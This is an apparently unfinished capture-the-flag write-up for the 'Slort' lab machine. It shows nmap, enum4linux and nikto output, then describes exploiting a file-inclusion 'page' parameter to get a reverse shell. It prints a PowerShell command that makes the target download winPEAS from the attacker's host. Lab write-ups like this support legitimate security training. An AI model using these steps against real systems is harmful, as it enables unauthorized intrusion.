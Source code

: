 # Slort

Machine: [Slort](https://portal.offensive-security.com/labs/practice)\
Difficulty: Intermediate


## Enumeration
What ports are open? I used both namp and namp automator to enumerate the machine.


```
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, NULL, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|_    Host '192.168.49.99' is not allowed to connect to this MariaDB server
4443/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.99.53:4443/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.99.53:8080/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-open-proxy: Proxy might be redirecting requests
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 1s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-19T15:18:20
|_  start_date: N/A

```

### Ports Info
#### FTP 21

#### SMB 139/445
Based on the output below, I do not believe smb is an attack vector. 
```
└─$ enum4linux -U -o 192.168.99.53
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Mar 19 11:47:21 2023

 =========================================( Target Information )=========================================                                                 
                                                                             
Target ........... 192.168.99.53                                             
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===========================( Enumerating Workgroup/Domain on 192.168.99.53 )===========================                                                  
                                                                             
                                                                             
[E] Can't find workgroup/domain                                              
                                                                             
                                                                             

 ===================================( Session Check on 192.168.99.53 )===================================                                                 
                                                                             
                                                                             
[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.                                                            

```

#### MySQL
This does not appear to be vulnerable and I can't connect.
```
$ mysql -h 192.168.99.53 3306
ERROR 1130 (HY000): Host '192.168.49.99' is not allowed to connect to this MariaDB server

```

#### Panda Pub
I am not familiar with this but it is a file transfer service of some kind.

#### HTTP 4443
I used dirbuster, but I did not find anything present on this webserver.

#### HTTP 8080
Below are the partial results of the dirbuster scan.  I found a webpage titled 'Slort', so this seems to be a good indicator that we are on the right path.

![Results!](screenshots/1.png)

![Results!](screenshots/2.png)

In the url, I noticed that it is using a parameter called 'page'. This parameter could be levereged for LFI, or LFI to RCE.

I also ran a nikto scan on the Slort webpage I found, and the output of that scan is below. I did not find much information that will help me.
```
+ Server: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
+ /site/: Retrieved x-powered-by header: PHP/7.4.6.
+ /site/: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /site/: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Root page /site redirects to: index.php?page=main.php
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. The following alternatives for 'index' were found: HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var. See: http://www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabilities/8275
+ OpenSSL/1.1.1g appears to be outdated (current is at least 3.0.7). OpenSSL 1.1.1s is current for the 1.x branch and will be supported until Nov 11 2023.
+ Apache/2.4.43 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ PHP/7.4.6 appears to be outdated (current is at least 8.1.5), PHP 7.4.28 for the 7.4 branch.
+ /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
+ /site/index.php: PHP include error may indicate local or remote file inclusion is possible.
+ /site/css/: Directory indexing found.
+ /site/css/: This might be interesting.                                                                                                                                                                
+ /site/README.TXT: This might be interesting.                                                                                                                                                          
+ /site/readme.txt: This might be interesting.                                                                                                                                                          
+ /site/images/: Directory indexing found.                                                                                                                                                              
+ /site/LICENSE.txt: License file found may identify site software.                                                                                                                                     


```

### Other Enumeration
There are a number of unknown open ports on the target, but I will ignore them since I don't know what service, if any, is running on a port.



## Exploit
After my intial enumeration, I still did not have a foothold on the target. I supected the vulnerability is due to the 'page' parameter, but I did not have success when I tested. With Windows, it appears to be different than how one would do in Linux. I saw an example online where someone connected back to their machine to retrieve a file, and then load the file in the browser by updating the parameter in the url. I can do the same thing, but upload a shell and setup a listener to wait for the incoming connection. 

```
powershell "Invoke-WebRequest -UseBasicParsing 192.168.49.99:8000/winPEASx64.exe -OutFile winpeas.exe"
```
![Results!](screenshots/3.png)

![Results!](screenshots/4.png)

![Results!](screenshots/5.png)






### Local/User flag

![Results!](screenshots/6.png)

### Root Flag
*** Insert screenshot of uploading winpeas ***


